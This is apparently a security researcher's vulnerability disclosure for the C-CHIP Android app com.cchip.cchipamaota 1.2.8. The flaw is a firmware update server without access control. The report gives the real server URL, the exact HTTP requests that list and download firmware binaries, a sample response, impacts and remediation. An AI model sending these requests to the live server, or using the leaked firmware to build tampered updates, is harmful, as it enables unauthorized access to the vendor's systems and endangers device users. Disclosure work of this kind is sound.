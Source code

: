 # Vulnerability Report - com.cchip.cchipamaota- Incorrect Access Control

**Product:** `com.cchip.cchipamaota` 

**Vendor:** [C-CHIP](http://www.c-chip.com.cn/english/)

**Version:** 1.2.8

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.cchip.cchipamaota` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

> Although the vendor has discontinued the use of the application, the URL for obtaining firmware has not been deprecated.

## Reproduction Steps

1. The `URL_GET_3266` String value in the `Constants` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002231411105](https://s2.loli.net/2024/10/02/ImyZbFrVCtNgTKh.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/update.json HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200
   Accept-Ranges: bytes
   ETag: W/"4657-1602659827000"
   Last-Modified: Wed, 14 Oct 2020 07:17:07 GMT
   Content-Type: application/json
   Content-Length: 4657
   Date: Wed, 02 Oct 2024 15:03:18 GMT
   
   {
       "updates": [
         {
           "device": "XZX",
           "build": "1362456405",
           "version": "1003",
           "file": [
               "/XZX/XZX_V1003_H1.bin",
               "/XZX/XZX_V1003_H2.bin"
           ],
           "description":"for test",
           "md5":"1506e35363c5f59cb7cde3ea0af83859"
         },
        {
           "device": "GGMMW1A",
           "build": "1562829949",
           "version": "1004",
           "file": [
               "/GGMMW1A/GGMMW1A_V1004_H1.bin",
               "/GGMMW1A/GGMMW1A_V1004_H2.bin"
           ],
           "filesize": [
               "1040384",
               "1040384"
           ],
           "description": "Modified SPP display name",
           "md5": "1506e35363c5f59cb7cde3ea0af83859"
        },
        ......
   ```

   Then, contact the `file` with `https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/`, we can access the firmware directly.

   ```HTTP
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA//GGMMW1A/GGMMW1A_V1004_H1.bin HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002231350187](https://s2.loli.net/2024/10/02/LpJTuyxVoQjEBYO.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.